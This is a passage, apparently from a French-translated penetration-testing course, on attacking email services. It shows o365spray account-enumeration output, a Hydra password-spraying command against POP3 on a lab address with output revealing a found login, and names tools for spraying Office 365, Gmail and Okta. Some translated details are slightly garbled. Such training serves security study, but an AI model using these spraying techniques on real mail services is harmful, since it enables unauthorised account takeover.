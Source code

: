 ```
[2022-04-13 09:48:10,415] INFO : [VALIDE] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFORMATIONS :

[ * ] Les comptes valides peuvent être trouvés à : '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] Tous les comptes énumérés peuvent être trouvés à : '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Comptes valides : 2

```

* * * * *

Attaques de mot de passe
----------------

Nous pouvons utiliser `Hydra` pour effectuer une pulvérisation de mot de passe ou une force brute contre les services de messagerie tels que `SMTP`, `POP3` ou `IMAP4`. Tout d'abord, nous devons obtenir une liste de noms d'utilisateur et une liste de mots de passe et spécifier le service que nous voulons attaquer. Voyons un exemple pour `POP3`.

#### Hydra - Attaque par mot de passe

Hydra - Attaque par mot de passe

```
dsgsec@htb[/htb]$ hydra -L utilisateurs.txt -p 'Société01 !' -f 10.10.110.20pop3

Hydra v9.1 (c) 2020 par van Hauser/THC & David Maciejak - Veuillez ne pas utiliser dans des organisations militaires ou de services secrets ou à des fins illégales (ceci n'est pas contraignant, ces *** ignorent de toute façon les lois et l'éthique).

Hydra (https://github.com/vanhauser-thc/thc-hydra) à partir du 2022-04-13 11:37:46
[INFO] plusieurs fournisseurs ont mis en place une protection contre le cracking, vérifiez d'abord avec une petite liste de mots - et restez dans la légalité !
[DATA] max 16 tâches par 1 serveur, 16 tâches au total, 67 tentatives de connexion (l:67/p:1), ~5 tentatives par tâche
[DONNÉES] attaquant pop3://10.10.110.20:110/
[110][pop3] hôte : 10.129.42.197 login : john mot de passe : Company01 !
1 cible sur 1 complétée avec succès, 1 mot de passe valide trouvé

```

Si les services cloud prennent en charge les protocoles SMTP, POP3 ou IMAP4, nous pourrons peut-être essayer de vaporiser les mots de passe à l'aide d'outils tels que "Hydra", mais ces outils sont généralement bloqués. Nous pouvons plutôt essayer d'utiliser des outils personnalisés tels que [o365spray](https://github.com/0xZDH/o365spray) ou [MailSniper](https://github.com/dafthack/MailSniper) pour Microsoft Office 365 ou [CredKing ](https://github.com/ustayready/CredKing) pour Gmail ou Okta. Gardez à l'esprit que ces outils doivent être à jour car si le fournisseur de services change quelque chose (ce qui arrive souvent), les outils peuvent ne plus fonctionner. C'est un exemple parfait de la raison pour laquelle nous devons comprendre ce que font nos outils et avoir le savoir-faire pour les modifier s'ils ne fonctionnent pas correctement pour une raison quelconque.
